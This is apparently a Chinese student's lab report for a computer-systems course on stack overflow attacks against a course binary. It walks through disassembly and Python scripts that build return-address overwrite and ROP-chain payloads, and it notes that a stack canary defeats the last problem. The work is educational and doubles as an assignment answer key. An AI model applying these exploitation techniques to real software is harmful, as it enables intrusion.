

# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
1. func1调用puts输出"Yes! I like ICS!"，只需要将返回地址覆盖为func1的地址即可实现重复调用func1。
2. 函数func存在漏洞
```asm
401246:  lea    -0x8(%rbp),%rax    # 缓冲区仅 8 字节
401250:  call   strcpy@plt         # strcpy 无长度限制
``` 
故只需构造一个长度大于8字节的输入，覆盖返回地址为func1的地址即可。
- **解决方案**：
```python
padding = b"A" * 16

func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + func1_address

with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans1.txt")
print(f"Payload length: {len(payload)} bytes")
print(f"Payload (hex): {payload.hex()}")
```
- **结果**：

### Problem 2:
- **分析**：
1. 需要调用func2(0x3f8)，即将返回地址覆盖为func2的地址，并在其后放入参数0x3f8。
2. 函数func存在漏洞
```asm
4012a4:  lea    -0x8(%rbp),%rax    # 缓冲区 8 字节
4012a8:  mov    $0x38,%edx         
4012b3:  call   memcpy@plt         # 复制56字节，溢出 48 字节
```
3. 利用pop rdi; ret; 设置参数
```asm
4012c7:  pop    %rdi               # 从栈弹出值到 rdi
4012c8:  ret
```
- **解决方案**：
```python
# 填充 16 字节：8字节缓冲区 + 8字节覆盖 rbp
padding = b"A" * 8 + b"B" * 8

# pop_rdi gadget 地址 0x4012c7（pop %rdi; ret）
pop_rdi_address = b"\xc7\x12\x40\x00\x00\x00\x00\x00"

# func2 的参数 0x3f8 (1016)
argument = b"\xf8\x03\x00\x00\x00\x00\x00\x00"

# func2 地址 0x401216
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"

# 构造 ROP 链
payload = padding + pop_rdi_address + argument + func2_address

# 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")
print(f"Payload length: {len(payload)} bytes")
print(f"Payload (hex): {payload.hex()}")
```
- **结果**：


### Problem 3: 
- **分析**：
1. func1检查参数，相等则输出结果
```asm
401225:  cmpl   $0x72,-0x44(%rbp)  # 检查参数 == 0x72 (114)
401229:  jne    401282             # 不等则失败
# 相等输出 "Your lucky number is 114"
```
2. 需要调用func1(0x72)，即将返回地址覆盖为func1的地址，并在其后放入参数0x72。
3. 函数func存在漏洞
```asm
401373:  lea    -0x20(%rbp),%rax   # 缓冲区 32 字节
401377:  mov    $0x40,%edx         # 复制 64 字节
401382:  call   memcpy@plt         # 溢出 32 字节
```
4. 利用pop rdi; ret; 设置参数
```asm
4012e6:  mov    -0x8(%rbp),%rax    # rax = *(rbp - 8)
4012ea:  mov    %rax,%rdi          # rdi = rax
4012ed:  ret
```

5. 需要关闭栈随机化（ASLR），以便确定栈地址。
- **解决方案**：
```python
# ============ 栈地址（先用占位符，后面通过 GDB 确定）============
BUF_ADDR = 0x4141414141414141  # 占位符，需要替换！

# ============ 地址定义 ============
gadget_addr = 0x4012e6    # mov -0x8(%rbp),%rax; mov %rax,%rdi; ret
func1_addr = 0x401216     # func1 函数地址
param = 0x72              # 参数值（十进制 114）

# ============ 计算 fake_rbp ============
fake_rbp = BUF_ADDR + 8

# ============ 构造 Payload ============
payload = b""
payload += param.to_bytes(8, 'little')       # 偏移 0-7:   参数 0x72
payload += b"B" * 8                           # 偏移 8-15:  填充
payload += b"C" * 8                           # 偏移 16-23: 填充
payload += b"D" * 8                           # 偏移 24-31: 填充
payload += fake_rbp.to_bytes(8, 'little')    # 偏移 32-39: 伪造的 rbp
payload += gadget_addr.to_bytes(8, 'little') # 偏移 40-47: gadget 地址
payload += func1_addr.to_bytes(8, 'little')  # 偏移 48-55: func1 地址
payload += b"E" * 8                           # 偏移 56-63: 填充

# ============ 写入文件 ============
with open("ans3.txt", "wb") as f:
    f.write(payload)

print(f"Payload written to ans3.txt ({len(payload)} bytes)")
print(f"BUF_ADDR = {hex(BUF_ADDR)}")
print(f"fake_rbp = {hex(fake_rbp)}")
print(f"Payload (hex): {payload.hex()}")
```
- **结果**：附上图片

### Problem 4: 
- **分析**：
保护机制期末考试学了X )。
函数开始时将%fs+0x28的值存入栈中，函数返回前会检查该值是否被篡改，若被篡改则调用__stack_chk_fail终止程序。
- **解决方案**：
传统的栈溢出实现不了，但是这个题目并不需要攻击，只需要根据题意输入答案即可。
前两个问题随意输入，最后一个问题输入-1或0xffffffff均可。
- **结果**：

## 思考与总结

金丝雀几乎绕不开，期末考试试题是不是有问题！
：(

## 参考资料

无
